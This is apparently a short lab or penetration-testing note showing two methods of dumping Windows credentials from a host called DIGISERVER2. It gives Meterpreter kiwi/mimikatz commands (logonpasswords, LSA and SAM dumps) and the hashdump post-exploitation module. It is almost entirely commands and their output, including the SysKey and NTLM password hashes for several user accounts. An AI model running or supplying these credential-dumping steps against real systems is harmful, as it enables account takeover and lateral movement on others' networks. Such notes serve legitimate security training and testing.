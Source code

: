 * Method 1
```powershell!
$ load kiwi
$ creds_all
$ kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam"
```

```cmd!
mimikatz(powershell) # lsadump::sam
Domain : DIGISERVER2
SysKey : b313dde382f6d2ac0aa856ca66f481ba
Local SID : S-1-5-21-569414602-2136848009-1330675085

SAMKey : fe296fa156f5e654e8af3227fd409796

RID  : 000001f4 (500)
User : digiserver2
  Hash NTLM: fbc954d40e1dc675cbbd3510b18e1972

RID  : 000001f5 (501)
User : Guest

RID  : 000003f1 (1009)
User : user1
  Hash NTLM: de26cce0356891a4a020e7c4957afc72

RID  : 000003f2 (1010)
User : user2
  Hash NTLM: 0229a7a4cd52062d9480fb4dbe41d41a

RID  : 000003f3 (1011)
User : user3
  Hash NTLM: 161cff084477fe596a5db81874498a24

```

* Method 2
```css!
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY b313dde382f6d2ac0aa856ca66f481ba...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...


digiserver2:500:aad3b435b51404eeaad3b435b51404ee:fbc954d40e1dc675cbbd3510b18e1972:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
user1:1009:aad3b435b51404eeaad3b435b51404ee:de26cce0356891a4a020e7c4957afc72:::
user2:1010:aad3b435b51404eeaad3b435b51404ee:0229a7a4cd52062d9480fb4dbe41d41a:::
user3:1011:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
admin:1014:aad3b435b51404eeaad3b435b51404ee:c0ba583087359901a3aaebf46fd7078f:::
```
